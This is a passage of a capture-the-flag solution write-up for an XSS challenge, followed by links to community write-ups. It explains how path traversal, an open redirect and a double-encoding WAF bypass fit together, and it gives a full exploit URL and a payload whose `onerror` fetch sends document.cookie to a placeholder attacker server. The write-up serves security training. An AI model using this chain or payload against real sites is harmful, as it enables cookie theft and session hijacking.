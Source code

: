 -   So, which endpoint to traverse to? Players who tested the `/contact` endpoint will have discovered an open redirect, e.g. `../../../contact?return=/home`, and this can be set to an external URL, e.g. `../../../contact?return=https://ATTACKER_SERVER`
-   Since [fetches are followed automatically](https://acut3.net/posts/2023-01-03-fetch-diversion), players can have their server deliver content
-   When the admin visits the URL, the CSPT will call the `/contact` endpoint, which will redirect to the attacker server, which will respond with an XSS payload
-   Some barriers to overcome:
    -   Players will get a CORS error but can resolve it by creating a CORS Flask app on their server
    -   `data.content` is sanitized - players will need to create a JSON object that has a `debug` property since `data.debug` is set to `outerHTML` without being processed by DOMPurify
    -   Path traversal must be double-encoded to bypass WAF, e.g. `..%252F..%252F..%252F`
    -   `/report` requires the URL ends with a valid UUID, so players will need to add `&lol=b00af6a0-7f48-46a1-8f54-f50c963950c3` or `?=b00af6a0-7f48-46a1-8f54-f50c963950c3` or `/b00af6a0-7f48-46a1-8f54-f50c963950c3` to the end of the `return` URL
    -   However, `/view` also requires the note ID to end with a valid UUID, so they will actually need to URL-encode the `&` like `return=http://ATTACKER_SERVER%26lol=b00af6a0-7f48-46a1-8f54-f50c963950c3`
-   The full payload should look like `https://CHALLENGE_URL/view?note=..%252F..%252F..%252Fcontact?return=https://ATTACKER_SERVER%26lol=b00af6a0-7f48-46a1-8f54-f50c963950c3` with attacker server hosting something like `{"debug": "<img src=x onerror=fetch('https://ATTACKER_SERVER/?'+document.cookie)>", "status": "success"}`
-   Player will receive the flag as a GET parameter in their web server log

## Community Writeups

1. [JorenVerheyen](https://jorenverheyen.github.io/intigriti-august-2024.html)
2. [alfinjose](https://alfinj0se.github.io/posts/intigritixssaug2024)
3. [stealthcopter](https://sec.stealthcopter.com/intigriti-august-2024-ctf)
4. [NeptunianHacks](https://fireshellsecurity.team/intigriti-august-challenge)
5. [antoniusblock23](https://blog.antoniusblock.net/posts/intigriti-08-2024-challenge-99ed0906-df4c-42e7-b366-51d3787b7f1c)
6. [0xalessandro](https://0xalessandro.notion.site/INTIGRITI-0824-3cfa34a180f84ff8b7c7e7451a29a055?pvs=4)
7. [benjamin](https://gist.github.com/BenjaminStienlet/6349588b2049ae0338bab806c7c9b77e)
8. [memosec](https://gist.github.com/memosec/f77f0bf798e0fcd2c3802de4a1b99275)
9. [t0m7r00z](https://www.youtube.com/watch?v=N-MtI7LRoss)
